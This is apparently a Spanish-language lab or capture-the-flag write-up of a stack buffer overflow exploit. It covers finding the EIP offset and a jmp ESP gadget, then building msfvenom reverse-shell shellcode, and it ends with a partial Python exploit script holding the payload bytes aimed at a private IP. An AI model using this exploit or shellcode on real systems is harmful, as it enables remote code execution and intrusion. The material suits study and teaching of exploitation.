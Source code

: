 Por lo que podemos buscar este patrón para saber el *offset* hasta el EIP:
![[Pasted image 20240830000001.png]]

Como vemos el *offset* es 112 por lo que lo siguiente que escribamos después de 112 caracteres se escribirá en el EIP.

Si nos fijamos en las protecciones que tiene el binario vemos que solo tiene el "canary" por lo que podemos ejecutar código en la pila:
![[Pasted image 20240830000230.png]]

No sabemos si está activado o no el ASLR en la máquina, en un principio supondremos que no. Por lo que ahora debemos de identificar donde iría el *shellcode* en nuestra cadena de caracteres. Como vemos, iría después del EIP:
![[Pasted image 20240830001539.png]]
![[Pasted image 20240830001637.png]]

Como el *shellcode* estará en el *stack* debemos de cargar la instrucción "jmp ESP" por lo que primero buscamos su "opcode" con `nasm`:
![[Pasted image 20240830003543.png]]

Como vemos el valor es FFE4 por lo que debemos de buscar en el código una dirección de memoria que tenga esa instrucción con `objdump`:
![[Pasted image 20240830003724.png]]

Como vemos la dirección de memoria 0x8049d55. Pero debemos de girarla, ya que debe de estar en Little-Endian. 

Ahora con `msfvenom` generamos el *shellcode* a ejecutar, en este caso, entablaremos una *reverse shell* a la "192.168.100.128" por el puerto 767 (que encaminará hasta nuestra máquina):
![[Pasted image 20240830013751.png]]

Una vez todo preparado unificamos todo en un *script* de Python:
```python
import socket, signal,sys

# Variables globales
IP = "192.168.100.129"
# IP = "127.0.0.1"
PORT = 9898

offset = 112
eip = b"\x55\x9d\x04\x08" # 0x8049d55 -> jmp ESP

shellcode =  b"\x90"*32 # nop 
shellcode += b"\xbf\x58\x7d\xa2\x88\xdb\xde\xd9\x74\x24\xf4"
shellcode += b"\x5a\x29\xc9\xb1\x12\x31\x7a\x12\x03\x7a\x12"
shellcode += b"\x83\xb2\x81\x40\x7d\x73\xa1\x72\x9d\x20\x16"
shellcode += b"\x2e\x08\xc4\x11\x31\x7c\xae\xec\x32\xee\x77"
shellcode += b"\x5f\x0d\xdc\x07\xd6\x0b\x27\x6f\x29\x43\xb3"
shellcode += b"\xef\xc1\x96\x3c\xed\xee\x1e\xdd\x41\x76\x71"
shellcode += b"\x4f\xf2\xc4\x72\xe6\x15\xe7\xf5\xaa\xbd\x96"
shellcode += b"\xda\x39\x55\x0f\x0a\x91\xc7\xa6\xdd\x0e\x55"
shellcode += b"\x6a\x57\x31\xe9\x87\xaa\x32"
data = b'A'*offset + eip + shellcode


def sig_handler(sig, frame):
    print("\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)


```